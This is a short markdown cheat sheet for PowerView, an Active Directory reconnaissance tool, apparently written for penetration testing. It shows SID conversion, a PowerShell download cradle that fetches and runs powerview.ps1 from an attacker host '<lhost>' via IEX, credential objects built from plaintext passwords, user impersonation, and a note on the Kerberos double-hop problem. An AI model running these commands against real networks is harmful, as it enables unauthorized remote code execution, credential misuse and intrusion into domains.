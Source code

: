 # powerview

% ad, windows, powerview
#plateform/windows #target/remote  #cat/RECON 

## Convert from SID
```powershell
Convert-ADName -ObjectName <sid>
```

## Convert to SID
```powershell
ConvertTo-SID -Name <name>
```

## load from remote
```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/powerview.ps1') | IEX
```

## Use different credentials (-Credential)
```powershell
$SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain_netbios>\<user>', $SecPassword)
<command> -Credential $Cred
```

## Impersonate a user
if running in -sta mode, impersonate another credential a la "runas /netonly"

Invoke-RevertToSelf to leave
```powershell
$SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain_netbios>\<user>', $SecPassword)
Invoke-UserImpersonation -Credential $Cred
```


## double hop problem
Exception calling "FindAll" with "0" argument(s): "An operations error occurred.
klist will return
    Client: backupadm @ legalcorp.local
    Server: academy-aen-ms0$ @
instead of
    Client: backupadm @ legalcorp.local
    Server: krbtgt/legalcorp.local @ legalcorp.local
```
```

